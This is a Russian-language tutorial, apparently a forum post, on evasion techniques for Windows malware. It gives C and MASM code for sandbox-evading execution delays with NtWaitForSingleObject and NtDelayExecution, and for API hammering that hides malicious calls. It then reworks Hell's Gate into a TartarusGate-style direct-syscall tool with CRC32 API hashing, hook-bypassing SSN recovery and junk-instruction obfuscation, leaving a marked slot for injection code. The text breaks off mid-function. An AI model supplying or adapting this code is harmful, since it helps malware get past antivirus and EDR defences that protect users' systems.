NTSTATUS NtWaitForSingleObject(
[in] HANDLE Handle, // Дескриптор объекта ожидания
[in] BOOLEAN Alertable, // Можно ли доставить оповещение, когда объект находится в ожидании
[in] PLARGE_INTEGER Timeout // Указатель на структуру LARGE_INTEGER, указывающую время ожидания
);Время ожидания для NtWaitForSingleObject задается в интервалах 100 наносекунд, которые часто называются тактами. Один такт эквивалентен 0,0001 миллисекунды. Значение, передаваемое через системный вызов через параметр Timeout, должно быть значением dwMilliSeconds x 10000, где dwMilliSeconds - это время ожидания в миллисекундах.
Функция DelayExecutionVia_NtWFSO ниже использует системный вызов NtWaitForSingleObject для задержки выполнения на указанное время, указанное параметром ftMinutes. ftMinutes представляет собой время задержки выполнения в минутах. Функция возвращает TRUE, если NtWaitForSingleObject успешно задерживает выполнение на указанное время.
C:
typedef NTSTATUS (NTAPI* fnNtWaitForSingleObject)(
HANDLE Handle,
BOOLEAN Alertable,
PLARGE_INTEGER Timeout
);
BOOL DelayExecutionVia_NtWFSO(FLOAT ftMinutes) {
// Преобразование минут в миллисекунды
DWORD dwMilliSeconds = ftMinutes * 60000;
HANDLE hEvent = CreateEvent(NULL, NULL, NULL, NULL);
LONGLONG Delay = NULL;
NTSTATUS STATUS = NULL;
LARGE_INTEGER DelayInterval = { 0 };
fnNtWaitForSingleObject pNtWaitForSingleObject = (fnNtWaitForSingleObject)GetProcAddress(GetModuleHandle(L"NTDLL.DLL"), "NtWaitForSingleObject");
DWORD _T0 = NULL,
_T1 = NULL;
// Преобразование из миллисекунд в интервал времени с интервалами 100 наносекунд
Delay = dwMilliSeconds * 10000;
DelayInterval.QuadPart = - Delay;
_T0 = GetTickCount64();
// Ожидание в течение 'dwMilliSeconds' мс
if ((STATUS = pNtWaitForSingleObject(hEvent, FALSE, &DelayInterval)) != 0x00 && STATUS != STATUS_TIMEOUT) {
printf("[!] NtWaitForSingleObject Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
_T1 = GetTickCount64();
// Прошло как минимум 'dwMilliSeconds' миллисекунд, значит, 'DelayExecutionVia_NtWFSO' выполнена успешно
if ((DWORD)(_T1 - _T0) < dwMilliSeconds)
return FALSE;
CloseHandle(hEvent);
return TRUE;
}Задержка выполнения с использованием NtDelayExecution
Последний метод для задержки выполнения - использование системного вызова NtDelayExecution. Название явно указывает на то, что этот системный вызов предназначен для задержки выполнения кода для синхронизации.
NtDelayExecution похож на NtWaitForSingleObject, за исключением того, что для ожидания объектного дескриптора не требуется; его функциональность аналогична Sleep, приостанавливающему выполнение текущего цикла кода. NtDelayExecution показан ниже.
C:
NTSTATUS NtDelayExecution(
IN BOOLEAN Alertable, // Можно ли доставить оповещение, когда объект находится в ожидании
IN PLARGE_INTEGER DelayInterval // Указатель на структуру LARGE_INTEGER, указывающую время ожидания
);NtDelayExecution использует такты для параметра DelayInterval.
Функция DelayExecutionVia_NtDE ниже использует системный вызов NtDelayExecution для задержки выполнения на указанное время ftMinutes, которое представляет собой время ожидания в минутах. Функция возвращает TRUE, если NtDelayExecution успешно задерживает выполнение на указанное время.
C:
typedef NTSTATUS (NTAPI *fnNtDelayExecution)(
BOOLEAN Alertable,
PLARGE_INTEGER DelayInterval
);
BOOL DelayExecutionVia_NtDE(FLOAT ftMinutes) {
// Преобразование минут в миллисекунды
DWORD dwMilliSeconds = ftMinutes * 60000;
LARGE_INTEGER DelayInterval = { 0 };
LONGLONG Delay = NULL;
NTSTATUS STATUS = NULL;
fnNtDelayExecution pNtDelayExecution = (fnNtDelayExecution)GetProcAddress(GetModuleHandle(L"NTDLL.DLL"), "NtDelayExecution");
DWORD _T0 = NULL,
_T1 = NULL;
// Преобразование из миллисекунд в интервал времени с отрицательными интервалами 100 наносекунд
Delay = dwMilliSeconds * 10000;
DelayInterval.QuadPart = - Delay;
_T0 = GetTickCount64();
// Ожидание в течение 'dwMilliSeconds' мс
if ((STATUS = pNtDelayExecution(FALSE, &DelayInterval)) != 0x00 && STATUS != STATUS_TIMEOUT) {
printf("[!] NtDelayExecution Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
_T1 = GetTickCount64();
// Прошло как минимум 'dwMilliSeconds' миллисекунд, значит, 'DelayExecutionVia_NtDE' выполнена успешно
if ((DWORD)(_T1 - _T0) < dwMilliSeconds)
return FALSE;
return TRUE;
}API Hammering - это техника обхода песочницы, при которой происходит быстрый вызов случайных функций WinAPI для задержки выполнения программы. Это также может использоваться для затруднения отслеживания стека вызовов в работающих потоках. Это означает, что злонамеренные вызовы функций в логике программы будут скрыты случайными вызовами безвредных функций WinAPI.
В этом разделе будет продемонстрирована техника API Hammering двумя способами. Первый метод выполняет API Hammering в фоновом потоке, который вызывает различные функции WinAPI из основного потока, где выполняется злонамеренный код. Второй метод использует API Hammering для задержки выполнения с помощью операций, требующих много времени.
Функции ввода-вывода API Hammering может использовать любые функции WinAPI, однако в этом модуле будут использованы следующие три функции WinAPI.
CreateFileW - используется для создания и открытия файла.
WriteFile - используется для записи данных в файл.
ReadFile - используется для чтения данных из файла.
Эти функции WinAPI были выбраны из-за их способности потреблять значительное количество времени при работе с большими объемами данных, что делает их подходящими для API Hammering.
Процесс API Hammering
Функция CreateFileW будет использоваться для создания временного файла в папке временных файлов Windows. Обычно в этой папке хранятся файлы .tmp, созданные операционной системой Windows или сторонними приложениями. Эти временные файлы часто используются для хранения временных данных во время вычислительных процессов, таких как установка приложения или загрузка файлов из Интернета. После завершения задач эти файлы обычно удаляются.
После создания файла .tmp в него будет записан буфер, сгенерированный случайным образом и фиксированного размера, с использованием функции WriteFile WinAPI. После этого дескриптор файла закрывается и затем снова открывается с использованием функции CreateFileW. На этот раз будет использован специальный флаг для пометки файла для удаления после закрытия его дескриптора.
Перед закрытием дескриптора будет использоваться функция ReadFile для чтения данных, записанных ранее, в локальный буфер. Затем этот буфер будет очищен и освобожден, и, наконец, закроется дескриптор файла, что приведет к его удалению.
Можно четко видеть, что вышеуказанные задачи не имеют смысла, но затратны по времени. Кроме того, все вышеперечисленное будет выполнено внутри цикла.
Также можно использовать генерацию данных для записи в файл и проверку его правильности после считывания, а также использования этих данных в качестве ключа.
Функция ApiHammering ниже выполняет описанные выше шаги. Единственным параметром, который требуется для этой функции, является dwStress, который представляет собой количество повторений всего процесса.
Остальной код должен выглядеть знакомо, за исключением функции WinAPI GetTempPathW, которая используется для получения пути к папке временных файлов C:\Users<username>\AppData\Local\Temp. Затем к этому пути добавляется имя файла TMPFILE, и оно передается функции CreateFileW.
C:
// Имя файла для создания
#define TMPFILE L"RuSfera.tmp"
BOOL ApiHammering(DWORD dwStress) {
WCHAR szPath [MAX_PATH * 2],
szTmpPath [MAX_PATH];
HANDLE hRFile = INVALID_HANDLE_VALUE,
hWFile = INVALID_HANDLE_VALUE;
DWORD dwNumberOfBytesRead = NULL,
dwNumberOfBytesWritten = NULL;
PBYTE pRandBuffer = NULL;
SIZE_T sBufferSize = 0xFFFFF; // 1048575 байт
INT Random = 0;
// Получение пути к временной папке
if (!GetTempPathW(MAX_PATH, szTmpPath)) {
printf("[!] GetTempPathW завершилось ошибкой: %d \n", GetLastError());
return FALSE;
}
// Создание пути к файлу
wsprintfW(szPath, L"%s%s", szTmpPath, TMPFILE);
for (SIZE_T i = 0; i < dwStress; i++){
// Создание файла в режиме записи
if ((hWFile = CreateFileW(szPath, GENERIC_WRITE, NULL, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_TEMPORARY, NULL)) == INVALID_HANDLE_VALUE) {
printf("[!] CreateFileW завершилось ошибкой: %d \n", GetLastError());
return FALSE;
}
// Выделение буфера и заполнение его случайным значением
pRandBuffer = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sBufferSize);
Random = rand() % 0xFF;
memset(pRandBuffer, Random, sBufferSize);
// Запись случайных данных в файл
if (!WriteFile(hWFile, pRandBuffer, sBufferSize, &dwNumberOfBytesWritten, NULL) || dwNumberOfBytesWritten != sBufferSize) {
printf("[!] WriteFile завершилось ошибкой: %d \n", GetLastError());
printf("[i] Записано %d байт из %d \n", dwNumberOfBytesWritten, sBufferSize);
return FALSE;
}
// Очистка буфера и закрытие дескриптора файла
RtlZeroMemory(pRandBuffer, sBufferSize);
CloseHandle(hWFile);
// Открытие файла в режиме чтения и удаление при закрытии
if ((hRFile = CreateFileW(szPath, GENERIC_READ, NULL, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_TEMPORARY | FILE_FLAG_DELETE_ON_CLOSE, NULL)) == INVALID_HANDLE_VALUE) {
printf("[!] CreateFileW завершилось ошибкой: %d \n", GetLastError());
return FALSE;
}
// Чтение ранее записанных случайных данных
if (!ReadFile(hRFile, pRandBuffer, sBufferSize, &dwNumberOfBytesRead, NULL) || dwNumberOfBytesRead != sBufferSize) {
printf("[!] ReadFile завершилось ошибкой: %d \n", GetLastError());
printf("[i] Прочитано %d байт из %d \n", dwNumberOfBytesRead, sBufferSize);
return FALSE;
}
// Очистка буфера и его освобождение
RtlZeroMemory(pRandBuffer, sBufferSize);
HeapFree(GetProcessHeap(), NULL, pRandBuffer);
// Закрытие дескриптора файла - удаление файла
CloseHandle(hRFile);
}
return TRUE;
}Задержка выполнения с помощью API Hammering
Чтобы задержать выполнение с помощью API Hammering, вычислите, сколько времени требуется функции ApiHammering для выполнения определенного числа циклов. Для этого используйте функцию GetTickCount64 WinAPI для измерения времени до и после вызова ApiHammering. В этом примере количество циклов составит 1000.
C:
int main() {
DWORD T0 = NULL,
T1 = NULL;
T0 = GetTickCount64();
if (!ApiHammering(1000)) {
return -1;
}
T1 = GetTickCount64();
printf(">>> ApiHammering(1000) Заняло : %d миллисекунд для завершения \n", (DWORD)(T1 - T0));
printf("[#] Нажмите <Enter>, чтобы выйти ... ");
getchar();
return 0;
}Вывод показывает, что 1000 циклов требуют примерно 5.1 секунды на текущей машине. Это число немного будет отличаться в зависимости от технических характеристик целевой системы.
Преобразование секунд в циклы
Макрос SECTOSTRESS, приведенный ниже, может быть использован для преобразования количества секунд, i, в количество циклов. Поскольку 1000 циклов занимают 5.157 секунд, одна секунда будет занимать 1000 / 5.157 = 194 цикла. Результат макроса следует использовать в качестве параметра для функции ApiHammering.
C:
#define SECTOSTRESS(i) ((int)i * 194)Задержка выполнения с помощью кода API Hammering
Фрагмент кода ниже показывает главную функцию, использующую ранее упомянутую технику.
C:
int main() {
DWORD T0 = NULL,
T1 = NULL;
T0 = GetTickCount64();
// Задержка выполнения на '5' секунд по количеству циклов
if (!ApiHammering(SECTOSTRESS(5))) {
return -1;
}
T1 = GetTickCount64();
printf(">>> ApiHammering задержал выполнение на : %d \n", (DWORD)(T1 - T0));
printf("[#] Нажмите <Enter>, чтобы выйти ... ");
getchar();
return 0;
}API Hammering в потоке
Функцию ApiHammering можно выполнить в потоке, который работает в фоновом режиме до завершения выполнения основного потока. Для этого можно использовать функцию CreateThread из WinAPI. Функции ApiHammering следует передать значение -1, что заставит ее выполняться в бесконечном цикле.
Главная функция, показанная ниже, создает новый поток и вызывает функцию ApiHammering со значением -1.
C:
int main() {
DWORD dwThreadId = NULL;
if (!CreateThread(NULL, NULL, ApiHammering, (LPVOID)-1, NULL, &dwThreadId)) {
printf("[!] CreateThread завершилось ошибкой: %d \n", GetLastError());
return -1;
}
printf("[+] Поток %d был создан для выполнения ApiHammering в фоновом режиме\n", dwThreadId);
/*
Место для вставки кода инъекции
*/
printf("[#] Нажмите <Enter>, чтобы выйти ... ");
getchar();
return 0;
}Открываем врата ада
В этих темах:


Мы обсуждали прямые системные вызовы для обхода хуков и детекта по поведению.
Мы там использовали вспомогательный инструмент Hell's Gate, предлагаю в этой статье модифицировать этот инструмент, что-бы избежать детект на сам инструмент.)
Обновления сделают реализацию более настраиваемой и, следовательно, более скрытной и уменьшат вероятность обнаружения на основе сигнатур. Кроме того, обновленный код изменит способ получения SSN системного вызова, используя метод TartarusGate.
Если вам нужно восстановить информацию о первоначальной реализации Hell's Gate, посетите репозиторий Hell's Gate на GitHub.
Обновление алгоритма хэширования строк
Первоначальная реализация Hell's Gate использовала алгоритм хэширования строк DJB2. Обновление алгоритма хэширования строк не влияет на реализацию Hell's Gate, но изменение алгоритма хэширования строк вероятно уменьшит вероятность обнаружения сигнатур. Функция djb2 заменяется следующей функцией.
C:
unsigned int crc32h(char* message) {
int i, crc;
unsigned int byte, c;
const unsigned int g0 = SEED, g1 = g0 >> 1,
g2 = g0 >> 2, g3 = g0 >> 3, g4 = g0 >> 4, g5 = g0 >> 5,
g6 = (g0 >> 6) ^ g0, g7 = ((g0 >> 6) ^ g0) >> 1;
i = 0;
crc = 0xFFFFFFFF;
while ((byte = message[i]) != 0) { // Получить следующий байт.
crc = crc ^ byte;
c = ((crc << 31 >> 31) & g7) ^ ((crc << 30 >> 31) & g6) ^
((crc << 29 >> 31) & g5) ^ ((crc << 28 >> 31) & g4) ^
((crc << 27 >> 31) & g3) ^ ((crc << 26 >> 31) & g2) ^
((crc << 25 >> 31) & g1) ^ ((crc << 24 >> 31) & g0);
crc = ((unsigned)crc >> 8) ^ c;
i = i + 1;
}
return ~crc;
}Функция crc32h представляет собой реализацию алгоритма хэширования строк Cyclic Redundancy Check (CRC32) и будет использоваться в этом разделе. Для повышения читаемости и обслуживаемости кода функция crc32h будет вызываться через следующую макросовую инструкцию.
C:
#define HASH(API) crc32h((char*)API)Где переменная API - это строка, которую необходимо хэшировать с использованием crc32h.
Обновление GetVxTableEntry
Создание структуры NTDLL_CONFIG
Напомним, что функция GetVxTableEntry используется для извлечения адреса и SSN (номера системного вызова) указанного системного вызова с использованием его хэш-значения. Функция GetVxTableEntry вычисляет необходимые RVAs (относительные адреса) для поиска указанного хэша и принимает два дополнительных параметра, pModuleBase и pImageExportDirectory, которые не связаны с ее назначением. Для улучшения эффективности создается структура NTDLL_CONFIG, которая представлена ниже.
C:
typedef struct _NTDLL_CONFIG
{
PDWORD pdwArrayOfAddresses; // VA массива адресов экспортируемых функций ntdll
PDWORD pdwArrayOfNames; // VA массива имен экспортируемых функций ntdll
PWORD pwArrayOfOrdinals; // VA массива порядковых номеров экспортируемых функций ntdll
DWORD dwNumberOfNames; // количество экспортируемых функций из ntdll.dll
ULONG_PTR uModule; // базовый адрес ntdll - необходим для вычисления будущих RVAs
} NTDLL_CONFIG, *PNTDLL_CONFIG;
// Глобальная переменная
NTDLL_CONFIG g_NtdllConf = { 0 };Создание InitNtdllConfigStructure
Кроме того, создается приватная функция InitNtdllConfigStructure, которая вызывается функцией GetVxTableEntry для инициализации глобальной структуры g_NtdllConf. Это позволяет GetVxTableEntry обращаться к значениям из заголовков NTDLL без необходимости дополнительных параметров или вычислений каждый раз. В результате функция InitNtdllConfigStructure инициализирует структуру g_NtdllConf для будущего использования.
Функция InitNtdllConfigStructure получает базовый адрес NTDLL и выполняет разбор PE (Portable Executable) для извлечения структуры директории экспорта. Затем функция вычисляет необходимые RVAs для заполнения структуры g_NtdllConf необходимыми данными. Функция возвращает TRUE, если она успешно выполняет эти действия, и FALSE, если структура g_NtdllConf все еще содержит неинициализированные элементы.
C:
BOOL InitNtdllConfigStructure() {
// Получение PEB (Process Environment Block)
PPEB pPeb = (PPEB)__readgsqword(0x60);
if (!pPeb || pPeb->OSMajorVersion != 0xA)
return FALSE;
// Получение модуля ntdll.dll
PLDR_DATA_TABLE_ENTRY pLdr = (PLDR_DATA_TABLE_ENTRY)((PBYTE)pPeb->LoaderData->InMemoryOrderModuleList.Flink->Flink - 0x10);
// Получение базового адреса ntdll
ULONG_PTR uModule = (ULONG_PTR)(pLdr->DllBase);
if (!uModule)
return FALSE;
// Получение заголовка DOS для ntdll
PIMAGE_DOS_HEADER pImgDosHdr = (PIMAGE_DOS_HEADER)uModule;
if (pImgDosHdr->e_magic != IMAGE_DOS_SIGNATURE)
return FALSE;
// Получение заголовков NT для ntdll
PIMAGE_NT_HEADERS pImgNtHdrs = (PIMAGE_NT_HEADERS)(uModule + pImgDosHdr->e_lfanew);
if (pImgNtHdrs->Signature != IMAGE_NT_SIGNATURE)
return FALSE;
// Получение директории экспорта для ntdll
PIMAGE_EXPORT_DIRECTORY pImgExpDir = (PIMAGE_EXPORT_DIRECTORY)(uModule + pImgNtHdrs->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);
if (!pImgExpDir)
return FALSE;
// Инициализация элементов структуры 'g_NtdllConf'
g_NtdllConf.uModule = uModule;
g_NtdllConf.dwNumberOfNames = pImgExpDir->NumberOfNames;
g_NtdllConf.pdwArrayOfNames = (PDWORD)(uModule + pImgExpDir->AddressOfNames);
g_NtdllConf.pdwArrayOfAddresses = (PDWORD)(uModule + pImgExpDir->AddressOfFunctions);
g_NtdllConf.pwArrayOfOrdinals = (PWORD)(uModule + pImgExpDir->AddressOfNameOrdinals);
// Проверка
if (!g_NtdllConf.uModule || !g_NtdllConf.dwNumberOfNames || !g_NtdllConf.pdwArrayOfNames || !g_NtdllConf.pdwArrayOfAddresses || !g_NtdllConf.pwArrayOfOrdinals)
return FALSE;
else
return TRUE;
}Переименование и обновление GetVxTableEntry
GetVxTableEntry переименована в FetchNtSyscall и будет иметь два параметра: dwSysHash, хэш-значение указанного системного вызова для извлечения SSN, и pNtSys, указатель на структуру NT_SYSCALL, которая содержит всю необходимую информацию для выполнения прямого системного вызова. Эта структура будет инициализирована функцией FetchNtSyscall.
C:
typedef struct _NT_SYSCALL
{
DWORD dwSSn; // номер системного вызова
DWORD dwSyscallHash; // хэш-значение системного вызова
PVOID pSyscallAddress; // адрес системного вызова
} NT_SYSCALL, *PNT_SYSCALL;Функция FetchNtSyscall выполняет следующие действия:
Проверяет, инициализирована ли глобальная структура g_NtdllConf. Если нет, она вызывает InitNtdllConfigStructure для ее инициализации. Проверяет, указал ли пользователь хэш-значение, иначе возвращает FALSE. Инициирует цикл for для поиска указанного системного вызова по его хэш-значению. Когда системный вызов найден, он сохраняет его адрес в структуре pNtSys. Затем инициирует цикл while для поиска SSN системного вызова. Логика поиска такая же, как и в исходной реализации. Если SSN найден, он сохраняется в структуре pNtSys. Затем функция выходит из обоих циклов и выполняет окончательную проверку, чтобы убедиться, что все элементы структуры NT_SYSCALL инициализированы. Результат возвращается после этой проверки.
C:
BOOL FetchNtSyscall(IN DWORD dwSysHash, OUT PNT_SYSCALL pNtSys) {
// Инициализация конфигурации ntdll, если не найдена
if (!g_NtdllConf.uModule) {
if (!InitNtdllConfigStructure())
return FALSE;
}
// Если не указано хэш-значение
if (dwSysHash != NULL)
pNtSys->dwSyscallHash = dwSysHash;
else
return FALSE;
// Поиск 'dwSysHash' в экспортируемых функциях ntdll
for (size_t i = 0; i < g_NtdllConf.dwNumberOfNames; i++) {
PCHAR pcFuncName = (PCHAR)(g_NtdllConf.uModule + g_NtdllConf.pdwArrayOfNames[i]);
PVOID pFuncAddress = (PVOID)(g_NtdllConf.uModule + g_NtdllConf.pdwArrayOfAddresses[g_NtdllConf.pwArrayOfOrdinals[i]]);
// Если системный вызов найден
if (HASH(pcFuncName) == dwSysHash) {
// Сохранение адреса
pNtSys->pSyscallAddress = pFuncAddress;
WORD cw = 0;
// Поиск SSN
while (TRUE) {
// Достигли инструкции 'ret' - мы находимся далеко внизу
if (*((PBYTE)pFuncAddress + cw) == 0xC3 && !pNtSys->dwSSn)
return FALSE;
// Достигли инструкции 'syscall' - мы находимся далеко внизу
if (*((PBYTE)pFuncAddress + cw) == 0x0F && *((PBYTE)pFuncAddress + cw + 1) == 0x05 && !pNtSys->dwSSn)
return FALSE;
if (*((PBYTE)pFuncAddress + cw) == 0x4C
&& *((PBYTE)pFuncAddress + 1 + cw) == 0x8B
&& *((PBYTE)pFuncAddress + 2 + cw) == 0xD1
&& *((PBYTE)pFuncAddress + 3 + cw) == 0xB8
&& *((PBYTE)pFuncAddress + 6 + cw) == 0x00
&& *((PBYTE)pFuncAddress + 7 + cw) == 0x00) {
BYTE high = *((PBYTE)pFuncAddress + 5 + cw);
BYTE low = *((PBYTE)pFuncAddress + 4 + cw);
// Сохранение SSN
pNtSys->dwSSn = (high << 8) | low;
break; // Выход из цикла while
}
cw++;
}
break; // Выход из цикла for
}
}
// Проверка, инициализированы ли все элементы NT_SYSCALL (pNtSys)
if (pNtSys->dwSSn != NULL && pNtSys->pSyscallAddress != NULL && pNtSys->dwSyscallHash != NULL)
return TRUE;
else
return FALSE;
}Улучшение логики извлечения SSN
Напомним, что при поиске SSN (номера системного вызова) Hell's Gate ограничивает границы поиска, проверяя наличие инструкций syscall или ret. Если одна из этих инструкций найдена, и SSN еще не был получен, то поиск завершается неудачей, что предотвращает извлечение неправильного значения SSN из другой функции системного вызова.
TartarusGate
В TartarusGate был представлен альтернативный способ поиска SSN, который иллюстрирован на изображении ниже.
Предположим, что вызов системного вызова B выполняется с использованием реализации Hell's Gate. В этом случае будет осуществляться поиск операций 0x4c, 0x8b, 0xd1, 0xb8, которые представляют собой инструкции mov r10, rcx и mov rcx, ssn. Но, как показано на изображении выше, таких операций нет, что означает, что реализация Hell's Gate не сможет получить SSN для системного вызова B.
TartarusGate использует соседние системные вызовы для вычисления SSN указанного системного вызова. Если TartarusGate ищет вверх, то SSN системного вызова B равен SSN системного вызова A - 1. С другой стороны, если TartarusGate ищет вниз, то SSN системного вызова B равен SSN системного вызова C + 1.
Обратите внимание, что путь поиска может распространяться за пределы непосредственно соседних системных вызовов. Например, если выполняется вызов системного вызова C, то SSN системного вызова C будет равен следующим возможным операциям:
Syscall A's SSN plus two
Syscall B's SSN plus one
Syscall D's SSN minus one
Syscall E's SSN minus two
Syscall F's SSN minus three
На изображении ниже это более наглядно иллюстрируется, где idx - это число для добавления или вычитания.
Обновление функции FetchNtSyscall
После понимания того, как работает TartarusGate, функция FetchNtSyscall обновляется для использования этой логики поиска. Некоторые аспекты обновленной функции FetchNtSyscall:
RANGE равен 255, представляя максимальное количество системных вызовов, чтобы двигаться вверх или вниз в памяти.
UP равно 32, что является размером системного вызова. Это используется при поиске вверх.
DOWN равно -32, что является отрицательным размером системного вызова. Это используется при поиске вниз.
Когда путь поиска направлен вверх, SSN указанного системного вызова вычисляется как (high << 8) | low + idx, где idx - это количество системных вызовов выше текущего системного вызова (адрес pFuncAddress). Когда путь поиска направлен вниз, SSN указанного системного вызова вычисляется как (high << 8) | low - idx, где idx - это количество системных вызовов ниже текущего системного вызова (адрес pFuncAddress).
C:
BOOL FetchNtSyscall(IN DWORD dwSysHash, OUT PNT_SYSCALL pNtSys) {
// Инициализация конфигурации ntdll, если не найдена
if (!g_NtdllConf.uModule) {
if (!InitNtdllConfigStructure())
return FALSE;
}
if (dwSysHash != NULL)
pNtSys->dwSyscallHash = dwSysHash;
else
return FALSE;
for (size_t i = 0; i < g_NtdllConf.dwNumberOfNames; i++){
PCHAR pcFuncName = (PCHAR)(g_NtdllConf.uModule + g_NtdllConf.pdwArrayOfNames[i]);
PVOID pFuncAddress = (PVOID)(g_NtdllConf.uModule + g_NtdllConf.pdwArrayOfAddresses[g_NtdllConf.pwArrayOfOrdinals[i]]);
pNtSys->pSyscallAddress = pFuncAddress;
// if syscall found
if (HASH(pcFuncName) == dwSysHash) {
if (*((PBYTE)pFuncAddress) == 0x4C
&& *((PBYTE)pFuncAddress + 1) == 0x8B
&& *((PBYTE)pFuncAddress + 2) == 0xD1
&& *((PBYTE)pFuncAddress + 3) == 0xB8
&& *((PBYTE)pFuncAddress + 6) == 0x00
&& *((PBYTE)pFuncAddress + 7) == 0x00) {
BYTE high = *((PBYTE)pFuncAddress + 5);
BYTE low = *((PBYTE)pFuncAddress + 4);
pNtSys->dwSSn = (high << 8) | low;
break; // Выход из цикла for-loop [i]
}
// if hooked - scenario 1
if (*((PBYTE)pFuncAddress) == 0xE9) {
for (WORD idx = 1; idx <= RANGE; idx++) {
// check neighboring syscall down
if (*((PBYTE)pFuncAddress + idx * DOWN) == 0x4C
&& *((PBYTE)pFuncAddress + 1 + idx * DOWN) == 0x8B
&& *((PBYTE)pFuncAddress + 2 + idx * DOWN) == 0xD1
&& *((PBYTE)pFuncAddress + 3 + idx * DOWN) == 0xB8
&& *((PBYTE)pFuncAddress + 6 + idx * DOWN) == 0x00
&& *((PBYTE)pFuncAddress + 7 + idx * DOWN) == 0x00) {
BYTE high = *((PBYTE)pFuncAddress + 5 + idx * DOWN);
BYTE low = *((PBYTE)pFuncAddress + 4 + idx * DOWN);
pNtSys->dwSSn = (high << 8) | low - idx;
break; // Выход из цикла for-loop [idx]
}
// check neighboring syscall up
if (*((PBYTE)pFuncAddress + idx * UP) == 0x4C
&& *((PBYTE)pFuncAddress + 1 + idx * UP) == 0x8B
&& *((PBYTE)pFuncAddress + 2 + idx * UP) == 0xD1
&& *((PBYTE)pFuncAddress + 3 + idx * UP) == 0xB8
&& *((PBYTE)pFuncAddress + 6 + idx * UP) == 0x00
&& *((PBYTE)pFuncAddress + 7 + idx * UP) == 0x00) {
BYTE high = *((PBYTE)pFuncAddress + 5 + idx * UP);
BYTE low = *((PBYTE)pFuncAddress + 4 + idx * UP);
pNtSys->dwSSn = (high << 8) | low + idx;
break; // Выход из цикла for-loop [idx]
}
}
}
// if hooked - scenario 2
if (*((PBYTE)pFuncAddress + 3) == 0xE9) {
for (WORD idx = 1; idx <= RANGE; idx++) {
// check neighboring syscall down
if (*((PBYTE)pFuncAddress + idx * DOWN) == 0x4C
&& *((PBYTE)pFuncAddress + 1 + idx * DOWN) == 0x8B
&& *((PBYTE)pFuncAddress + 2 + idx * DOWN) == 0xD1
&& *((PBYTE)pFuncAddress + 3 + idx * DOWN) == 0xB8
&& *((PBYTE)pFuncAddress + 6 + idx * DOWN) == 0x00
&& *((PBYTE)pFuncAddress + 7 + idx * DOWN) == 0x00) {
BYTE high = *((PBYTE)pFuncAddress + 5 + idx * DOWN);
BYTE low = *((PBYTE)pFuncAddress + 4 + idx * DOWN);
pNtSys->dwSSn = (high << 8) | low - idx;
break; // Выход из цикла for-loop [idx]
}
// check neighboring syscall up
if (*((PBYTE)pFuncAddress + idx * UP) == 0x4C
&& *((PBYTE)pFuncAddress + 1 + idx * UP) == 0x8B
&& *((PBYTE)pFuncAddress + 2 + idx * UP) == 0xD1
&& *((PBYTE)pFuncAddress + 3 + idx * UP) == 0xB8
&& *((PBYTE)pFuncAddress + 6 + idx * UP) == 0x00
&& *((PBYTE)pFuncAddress + 7 + idx * UP) == 0x00) {
BYTE high = *((PBYTE)pFuncAddress + 5 + idx * UP);
BYTE low = *((PBYTE)pFuncAddress + 4 + idx * UP);
pNtSys->dwSSn = (high << 8) | low + idx;
break; // Выход из цикла for-loop [idx]
}
}
}
break; // Выход из цикла for-loop [i]
}
}
if (pNtSys->dwSSn != NULL && pNtSys->pSyscallAddress != NULL && pNtSys->dwSyscallHash != NULL)
return TRUE;
else
return FALSE;
}Обновление сборочных функций
Функции HellsGate и HellDescent, найденные в файле hellsgate.asm, будут заменены на SetSSn и RunSyscall соответственно. SetSSn требует SSN вызываемого системного вызова, а RunSyscall выполняет его.
В этих двух функциях не производятся крупные обновления, однако были добавлены дополнительные инструкции ассемблера, которые не влияют на выполнение программы, но добавляют обфускацию.
Обновление сборочных функций Функции HellsGate и HellDescent, найденные в файле hellsgate.asm, будут заменены на SetSSn и RunSyscall соответственно. SetSSn требует SSN вызываемого системного вызова, а RunSyscall выполняет его.
В этих двух функциях не производятся крупные обновления, однако были добавлены дополнительные инструкции ассемблера, которые не влияют на выполнение программы, но добавляют обфускацию.
Незатронутые сборочные функции
SetSSN и RunSyscall без лишних сборочных инструкций:
Код:
.data
wSystemCall DWORD 0000h
.code
SetSSn PROC
mov wSystemCall, ecx
ret
SetSSn ENDP
RunSyscall PROC
mov r10, rcx
mov eax, wSystemCall
syscall
ret
RunSyscall ENDP
endСборочные функции с обфускацией
SetSSN и RunSyscall с добавленными сборочными инструкциями:
Код:
.data
wSystemCall DWORD 0000h
.code
SetSSn PROC
xor eax, eax ; eax = 0
mov wSystemCall, eax ; wSystemCall = 0
mov eax, ecx ; eax = ssn
mov r8d, eax ; r8d = eax = ssn
mov wSystemCall, r8d ; wSystemCall = r8d = eax = ssn
ret
SetSSn ENDP
RunSyscall PROC
xor r10, r10 ; r10 = 0
mov rax, rcx ; rax = rcx
mov r10, rax ; r10 = rax = rcx
mov eax, wSystemCall ; eax = ssn
jmp Run ; выполнить 'Run'
xor eax, eax ; не выполнится
xor rcx, rcx ; не выполнится
shl r10, 2 ; не выполнится
Run:
syscall
ret
RunSyscall ENDP
endОбновление главной функции
Создание структуры NTAPI_FUNC
Обновленная реализация Hell's Gate завершена.
Последний шаг - это тестирование реализации, которое требует главной функции. Для этого создается новая структура, которая заменяет VX_TABLE. Новая структура NTAPI_FUNC будет содержать информацию о системных вызовах. Хранение этой информации в структуре позволит вызывать системные вызовы несколько раз, когда они инициализируются как глобальная переменная.
Структура NTAPI_FUNC представлена ниже:
C:
typedef struct _NTAPI_FUNC
{
NT_SYSCALL NtAllocateVirtualMemory;
NT_SYSCALL NtProtectVirtualMemory;
NT_SYSCALL NtCreateThreadEx;
NT_SYSCALL NtWaitForSingleObject;
} NTAPI_FUNC, *PNTAPI_FUNC;
// глобальная переменная
NTAPI_FUNC g_Nt = { 0 };Создание функции InitializeNtSyscalls
Для заполнения глобальной переменной g_Nt создается новая функция InitializeNtSyscalls, которая будет вызывать FetchNtSyscall для инициализации всех членов NTAPI_FUNC.
C:
BOOL InitializeNtSyscalls() {
if (!FetchNtSyscall(NtAllocateVirtualMemory_CRC32, &g_Nt.NtAllocateVirtualMemory)) {
printf("[!] Failed In Obtaining The Syscall Number Of NtAllocateVirtualMemory \n");
return FALSE;
}
